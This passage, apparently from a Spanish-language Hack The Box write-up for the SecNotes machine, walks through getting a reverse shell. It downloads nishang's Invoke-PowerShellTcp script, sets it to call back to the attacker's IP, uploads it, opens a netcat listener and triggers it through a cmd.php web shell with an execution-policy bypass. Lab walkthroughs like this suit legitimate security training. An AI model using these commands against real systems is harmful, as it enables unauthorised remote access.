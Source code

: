 O por su parte podemos usar `Invoke-PowerShellTcp` de _nishang_, para lo cual descargaremos el script.

```
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

Añadimos la siguiente línea al final del script.

```
Invoke-PowerShellTcp -Reverse -IPAddress <nuestraDirecciónIP> -Port <puertoCualquiera>
```

Lo subimos al servidor web.

```
put Invoke-PowerShellTcp.ps1
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2022-02-28-SecNotes-Hack-The-Box/36.png){:class="blog-image" onclick="expandImage(this)"} 

Nos ponemos en escucha a través del puerto que determinamos anteriormente.

```
sudo nc -nlvp <puertoCualquiera>
```

Para finalmente a través del navegador añadir lo siguiente al url.

```
/cmd.php?cmd=powershell -ep bypass .\Invoke-PowerShellTcp
```
